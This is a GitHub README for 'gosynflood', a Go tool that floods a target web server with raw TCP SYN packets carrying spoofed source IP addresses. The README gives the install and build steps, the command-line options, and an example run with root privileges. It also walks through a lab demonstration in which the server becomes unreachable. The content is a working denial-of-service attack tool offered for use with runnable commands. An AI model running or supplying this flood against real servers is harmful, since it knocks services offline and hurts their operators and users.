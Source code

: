 
### gosynflood - Repeatedly Send Raw TCP SYN Packets

###### USAGE:
<pre>
  <code>
# get the project
go get github.com/rootVIII/gosynflood


# Navigate to project root and build:
go build .

# raw sockets require root privileges when executing:
sudo ./gosynflood \
    -t &lt;target IPV4 address&gt; \
    -p &lt;port number&gt; \
    -i &lt;network interface&gt; \
    -n &lt;number of packets&gt;

# Example:
sudo ./gosynflood -t 192.168.1.120 -p 80 -i wlp3s0 -n 500
  </code>
</pre>

###### CLI OPTIONS:
<pre>
  <code>
-t private or public IP address of webserver
-p port number (defaults to port 80 if not provided)
-i network interface (run program without -i to see found interfaces)
-n number of TCP packets to send (defaults to 1000 if not provided)
  </code>
</pre>

Each packet's IP address is spoofed. MAC addresses are not spoofed however.

This attack may only work on web servers that for some reason do not have a method
of preventing numerous half-open connections (SYN_RECV).

To demonstrate this, a small Ubuntu Mate running Apache2 will act as the target.
It's a physical machine on a private network.

<hr>
1. The tcp_syncookies flag is set to 0 and the webserver is started on the target:
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/1.png">


2. The attacker machine (a separate physical machine also running Ubuntu) executes the gosynflood exe with root privileges:
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/5.png">


3. The initial SYNs are visible in Wireshark on the target
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/2.png">
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/3.png">


4. During the attack the webserver should be unreachable at it's URL. The half-open
connections are visible via the command <code>netstat -na --tcp</code>
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/4.png">




This was developed on Ubuntu 18.04 LTS.
<hr>
<b>Author: rootVIII  2018-2020</b>
<br><br>